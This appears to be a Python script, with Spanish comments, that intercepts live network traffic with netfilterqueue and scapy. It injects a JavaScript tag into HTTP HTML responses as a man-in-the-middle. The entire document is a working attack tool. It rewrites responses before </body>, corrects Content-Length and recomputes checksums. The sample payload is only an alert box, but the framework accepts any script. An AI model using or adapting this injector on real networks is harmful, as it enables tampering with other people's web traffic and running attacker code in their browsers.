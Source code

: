 ```python
from netfilterqueue import NetfilterQueue
from scapy.all import *
import re

# Inyección: un simple JS para test
INJECTION_CODE = '<script>alert("Hola desde el atacante!");</script>'

def process_packet(packet):
    scapy_packet = IP(packet.get_payload())

    # Solo modificar paquetes HTTP (puerto 80) con contenido
    if scapy_packet.haslayer(Raw):
        load = scapy_packet[Raw].load

        # Verifica si es una respuesta HTTP
        if b"HTTP/" in load and b"Content-Type: text/html" in load:
            print("[+] Paquete HTTP detectado... modificando")

            # Inyectar el código antes de </body>
            modified_load = load.replace(b"</body>", INJECTION_CODE.encode() + b"</body>")

            # Corregir el tamaño del paquete (Content-Length)
            content_length_search = re.search(br"Content-Length:\s*(\d+)", modified_load)
            if content_length_search:
                old_length = int(content_length_search.group(1))
                new_length = old_length + len(INJECTION_CODE)
                modified_load = re.sub(
                    br"Content-Length:\s*\d+",
                    f"Content-Length: {new_length}".encode(),
                    modified_load
                )

            # Actualiza el paquete
            scapy_packet[Raw].load = modified_load

            # Elimina los checksums para que Scapy los recalculen
            del scapy_packet[IP].len
            del scapy_packet[IP].chksum
            del scapy_packet[TCP].chksum

            # Enviar el paquete modificado
            packet.set_payload(bytes(scapy_packet))

    packet.accept()

# Inicializa la cola
nfqueue = NetfilterQueue()
nfqueue.bind(0, process_packet)

print("[*] Esperando paquetes... presiona Ctrl+C para salir")
try:
    nfqueue.run()
except KeyboardInterrupt:
    print("\n[!] Cerrando.")
```

---